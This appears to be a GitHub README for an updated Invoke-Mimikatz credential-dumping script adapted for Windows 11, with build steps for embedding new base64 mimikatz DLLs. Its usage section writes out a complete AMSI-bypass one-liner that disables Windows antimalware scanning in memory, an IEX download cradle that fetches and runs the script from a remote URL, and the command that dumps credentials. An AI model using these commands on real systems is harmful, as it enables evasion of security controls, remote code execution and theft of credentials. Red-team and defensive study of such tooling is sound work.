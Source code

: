 # Invoke-Mimikatz
Updated version of Invoke-Mimikatz that runs on Windows 11.
The encoded mimikatz DLLs stored in PEBytes64 and PEBytes32 have been updated as well to contain a mimikatz version that runs on Windows 11 (https://github.com/ebalo55/mimikatz/tree/main).

1. Download Invoke-Mimikatz.ps1 from the PowerShellMafia repo (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).
2. Change the following line:
`$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress')` to `$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);`

3. Clone the mimikatz repo from ebalo55.
4. Open the project in VSCode.
5. Select "Second_Release_PowerShell" and build the project.
6. Base64 encode Win32/powerkatz.dll and x64/powerkatz.dll.
7. Replace the content of the PEBytes64 and PEBytes32 variable with base64 encoded payloads.

How to use:

1. Bypass AMSI `$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
`
2. Load Invoke-Mimikatz `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tartofour/Invoke-Mimikatz/main/Invoke-Mimikatz.ps1')`

3. Run Invoke-Mimikatz `Invoke-Mimikatz`

References:
- https://github.com/mitre/caldera/issues/38
- https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/ 
